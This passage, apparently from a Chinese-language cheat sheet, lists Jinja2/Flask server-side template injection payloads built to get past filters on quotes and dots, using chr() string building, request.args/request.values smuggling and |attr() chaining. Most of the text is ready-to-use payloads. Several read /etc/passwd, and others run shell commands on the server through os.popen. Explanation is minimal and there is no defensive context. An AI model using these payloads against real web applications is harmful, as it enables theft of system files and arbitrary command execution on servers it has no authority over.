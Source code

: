 ## 引号'

### 利用chr()绕过

先获取chr()函数，赋值给chr，后面再拼接成一个字符串

```
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

等同
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

### 利用request对象绕过

示例：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /

等同于：

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

如果过滤了args，可以将其中的request.args改为request.values，POST和GET两种方法传递的数据request.values都可以接收。

## 点.

### 利用 `|attr()` 绕过（适用于flask）

如果 `.` 也被过滤，且目标是JinJa2（flask）的话，可以使用原生JinJa2函数`attr()`，即：

```php
().__class__   =>  ()|attr("__class__")
```

示例

```php
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}

等同于
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```
